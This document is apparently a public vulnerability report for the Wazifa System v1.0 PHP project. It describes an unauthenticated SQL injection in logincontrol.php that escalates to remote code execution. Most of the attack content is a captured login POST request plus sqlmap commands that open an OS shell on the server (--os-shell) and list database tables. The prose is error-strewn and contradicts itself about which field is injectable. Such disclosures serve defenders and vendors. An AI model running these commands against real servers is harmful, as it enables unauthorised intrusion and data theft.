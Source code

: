 # Wazifa System in PHP RCE

https://code-projects.org/wazifa-system-in-php-css-js-and-mysql-free-download/

## NAME OF AFFECTED PRODUCT(S)

Wazifa System

## Vendor of Product

https://code-projects.org/wazifa-system-in-php-css-js-and-mysql-free-download/

##  **Manufacturers sites**

https://code-projects.org/

## Affected Compoent

### Vulnerable File

logincontrol.php

###  VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/82bd09bf-dc3d-4700-912e-2e315eb4777e

## Vulnerability Type

SQL INJECTION , Remote Code Excute.

## Attacted Type

Remote			

## **Description of the vulnerability**

 In the login page, there is an unauthorized SQL injection vulnerability where the password is entered, which can obtain database information and execute code to obtain server permissions.                                                                                                                                                                                                                                                                                                                                                                                               

![image-20241031224942721](https://github.com/user-attachments/assets/495e5d89-00b6-4e1d-9b41-a8c9c7134c4f)

## **Vulnerability recurrence**

### **POC**

```
POST /controllers/logincontrol.php HTTP/1.1
Host: collegeproject-wazifa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://collegeproject-wazifa
Connection: close
Referer: http://collegeproject-wazifa/login.php
Cookie: PHPSESSID=71m3j6l9g02u9ia1mteslaie7a
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=hamada2&password=1234
```

Save this packet as a 1.txt.

**This vulnerability can be used to obtain server privileges by execute this command.**

```
python sqlmap.py -r 1.txt -p "username" --os-shell
```

Result

![image-20241031220230972](https://github.com/user-attachments/assets/9ff6c6e4-98e5-49da-93bd-20fb399ece58)

**Run the following code to obtain the database information**

```
python sqlmap.py -r 1.txt -p "username" --tables
```

![image-20241031224555322](https://github.com/user-attachments/assets/68aee6a7-99c3-48b1-9140-e03b67864343)